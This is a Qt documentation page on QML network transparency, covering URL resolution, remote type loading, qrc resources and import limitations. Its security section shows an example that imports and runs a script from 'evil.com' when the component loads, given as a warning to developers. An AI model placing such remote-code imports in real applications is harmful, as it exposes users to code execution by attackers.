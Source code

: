 ```yaml
---
Title: QtQml.qtqml-documents-networktransparency
---
```


# QtQml.qtqml-documents-networktransparency

<span class="subtitle"></span>
<!-- $$$qtqml-documents-networktransparency.html-description -->
<p>QML supports network transparency by using URLs (rather than file names) for all references from a QML document to other content. This means that anywhere a URL source is expected, QML can handle remote resources as well as local ones, for example in the following image source:</p>
<pre class="qml"><span class="type">Image</span> {
<span class="name">source</span>: <span class="string">&quot;http://www.example.com/images/logo.png&quot;</span>
}</pre>
<p>Since a <i>relative</i> URL is the same as a relative file, development of QML on regular file systems remains simple:</p>
<pre class="qml"><span class="type">Image</span> {
<span class="name">source</span>: <span class="string">&quot;images/logo.png&quot;</span>
}</pre>
<p>Network transparency is supported throughout QML, for example:</p>
<ul>
<li>Fonts - the <code>source</code> property of FontLoader is a URL</li>
<li>WebViews - the <code>url</code> property of WebView (obviously!)</li>
</ul>
<p>Even QML types themselves can be on the network - if the Prototyping with qmlscene is used to load <code>http://example.com/mystuff/Hello.qml</code> and that content refers to a type &quot;World&quot;, the engine will load <code>http://example.com/mystuff/qmldir</code> and resolve the type just as it would for a local file. For example if the qmldir file contains the line &quot;World World.qml&quot;, it will load <code>http://example.com/mystuff/World.qml</code> Any other resources that <code>Hello.qml</code> referred to, usually by a relative URL, would similarly be loaded from the network.</p>
<h2 id="relative-vs-absolute-urls">Relative vs. Absolute URLs</h2>
<p>Whenever an object has a property of type URL (QUrl), assigning a string to that property will actually assign an absolute URL - by resolving the string against the URL of the document where the string is used.</p>
<p>For example, consider this content in <code>http://example.com/mystuff/test.qml</code>:</p>
<pre class="qml"><span class="type">Image</span> {
<span class="name">source</span>: <span class="string">&quot;images/logo.png&quot;</span>
}</pre>
<p>The Image source property will be assigned <code>http://example.com/mystuff/images/logo.png</code>, but while the QML is being developed, in say <code>C:\User\Fred\Documents\MyStuff\test.qml</code>, it will be assigned <code>C:\User\Fred\Documents\MyStuff\images\logo.png</code>.</p>
<p>If the string assigned to a URL is already an absolute URL, then &quot;resolving&quot; does not change it and the URL is assigned directly.</p>
<h2 id="qrc-resources">QRC Resources</h2>
<p>One of the URL schemes built into Qt is the &quot;qrc&quot; scheme. This allows content to be compiled into the executable using The Qt Resource System. Using this, an executable can reference QML content that is compiled into the executable:</p>
<pre class="cpp">    <span class="type">QQuickView</span> <span class="operator">*</span>view <span class="operator">=</span> <span class="keyword">new</span> <span class="type">QQuickView</span>;
view<span class="operator">-</span><span class="operator">&gt;</span>setUrl(<span class="type">QUrl</span>(<span class="string">&quot;qrc:/dial.qml&quot;</span>));</pre>
<p>The content itself can then use relative URLs, and so be transparently unaware that the content is compiled into the executable.</p>
<h2 id="limitations">Limitations</h2>
<p>The <code>import</code> statement is only network transparent if it has an &quot;as&quot; clause.</p>
<p>More specifically:</p>
<ul>
<li><code>import &quot;dir&quot;</code> only works on local file systems</li>
<li><code>import libraryUri</code> only works on local file systems</li>
<li><code>import &quot;dir&quot; as D</code> works network transparently</li>
<li><code>import libraryUrl as U</code> works network transparently</li>
</ul>
<h2 id="implications-for-application-security">Implications for Application Security</h2>
<p>The QML security model is that QML content is a chain of trusted content: the user installs QML content that they trust in the same way as they install native Qt applications, or programs written with runtimes such as Python and Perl. That trust is establish by any of a number of mechanisms, including the availability of package signing on some platforms.</p>
<p>In order to preserve the trust of users, QML application developers should not load and execute arbitrary JavaScript or QML resources. For example, consider the QML code below:</p>
<pre class="qml">import QtQuick 2.0
import &quot;http://evil.com/evil.js&quot; as Evil
<span class="type"><a href="QtQml.Component.md">Component</a></span> {
<span class="name">onLoaded</span>: <span class="name">Evil</span>.<span class="name">doEvil</span>()
}</pre>
<p>This is equivalent to downloading and executing &quot;http://evil.com/evil.exe&quot;. <b>The QML engine will not prevent particular resources from being loaded</b>. Unlike JavaScript code that is run within a web browser, a QML application can load remote or local filesystem resources in the same way as any other native applications, so application developers must be careful in loading and executing any content.</p>
<p>As with any application accessing other content beyond its control, a QML application should perform appropriate checks on any untrusted data it loads. <b>Do not, for example, use <code>import</code>, Loader or <a href="QtQml.qtqml-javascript-qmlglobalobject.md#xmlhttprequest">XMLHttpRequest</a> to load any untrusted code or content.</b></p>
<!-- @@@qtqml-documents-networktransparency.html -->
